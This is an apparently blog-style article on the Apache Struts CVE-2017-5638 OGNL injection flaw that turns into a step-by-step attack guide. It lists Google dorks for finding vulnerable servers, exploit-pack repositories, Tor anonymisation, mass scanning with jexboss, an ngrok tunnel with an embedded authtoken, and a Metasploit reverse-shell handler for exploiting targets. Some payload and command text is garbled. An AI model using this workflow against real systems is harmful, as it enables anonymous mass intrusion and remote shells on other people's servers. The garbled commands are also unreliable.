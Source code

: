 ```yaml
---
title: APACHE STRUTS VULNERABILITY CVE 2017-5638 - Quick Sort
category: Article
date: 2019-2-19
author: 読み上げ
comment: true
---
```


# What is CVE-2017-5638?
Struts is vulnerable to remote command injection attacks through incorrectly parsing an attacker’s invalid Content-Type HTTP header. The Struts vulnerability allows these commands to be executed under the privileges of the Web server. This is full remote command execution and has been actively exploited in the wild from the initial disclosure.

The vulnerable code is in the Jakarta Multipart parser. If the Content-Type value isn’t valid, that is, it does not match an expected valid type, an exception is thrown that is then used to display an error message to a user. In this case, we can set the Content-Type to an OGNL expression such as:

~~~bash
Content­Type: ${(#_='multipart/form­data')}...
#eps=#container.toString()
#cmds=({'/bin/echo', #eps})
com.opensymphony.xwork2.inject.ContainerImpl@d0d2b00
~~~
![img-sample](https://www.synopsys.com/blogs/software-security/wp-content/uploads/HTTPRequestWithCurl.png)

The curl command shown above demonstrates whether the server is vulnerable or not by sending an http request with an embedded OGNL expression in the Content-Type header and receiving a response.

## FIND POTENTIAL TARGETS

intitle:"Struts problem report" intext:"Struts has detected an Unhandled"
intitle:"Struts Problem Report" intext:"development mode is enabled."
filetype:action
filetype:do
filetype:java
filetype:out
filetype:bat
filetype:seam
filetype:sh
filetype:bson
filetype:el
filetype:pm
inurl:login.action
inurl:login.do
inurl:login.java
inurl:index.action
inurl:index.do
inurl:index.java

## DEPENDENCIES

~~~bash
git clone https://github.com/s1kr10s/Apache-Struts-v3.git
git clone https://github.com/drigg3r/Struts-Apache-ExploitPack.git
git clone https://github.com/opsdisk/pagodo.git
git clone https://github.com/3ndG4me/torphantom.git
~~~

## Optional
Save your dorks list into a file such as "dorks.txt" and Specify the output path and filename such as "urls.txt"
~~~bash
$ sudo python pagodo.py ­-g dorks.txt ­-l 200 ­-s ­-e 35.0 ­-j 1.1 >> urls.txt
~~~

## INITIALIZE TOR SESSION WITH TORPHANTOM
###  Type the below commands
~~~bash
$ sudo torphantom start ­-i <interface>
~~~

### Scan using Struts-Scanner
Type the below commands and follow up the screen prompt
~~~bash
$ ./struts­-scanner
~~~
Type the below commands after correcting the input and output file paths
~~~bash
$ python jexboss.py ­-mode -file­-scan -­file /path/file/urls.txt ­-out /path/output/results.log ­­--struts2
~~~

## INITIALIZE TCP TUNNELING WITH NGROK
~~~bash
$ ./ngrok authtoken 8ml78jQFrVNah4cN8UwTt_5ZVZYRPD8q7huTk7vo8MZ
~~~
*Your Token can be found in your Ngrok account*

Create the Ngrok session on the port 4444 using the below command
~~~bash
$ ./ngrok tcp 4444
~~~

## CREATE MSF HANDLER
~~~bash
$ msfconsole
$ msf > use exploit/multi/handler
$ msf exploit(multi/handler) > set LHOST 0.0.0.0 LHOST => 0.0.0.0
$ msf exploit(multi/handler) > set LPORT 4444 LPORT => 4444
$ msf exploit(multi/handler) > set PAYLOAD linux/x86/shell/reverse_tcp PAYLOAD => linux/x86/shell/reverse_tcp msf exploit(multi/handler) > show options
~~~

## EXPLOIT THE TARGET
~~~bash
$ sudo python jexboss.py -u http://example.com/login.action
~~~

Complete Guide:[here](https://youtu.be/Bt9m__yel8M)
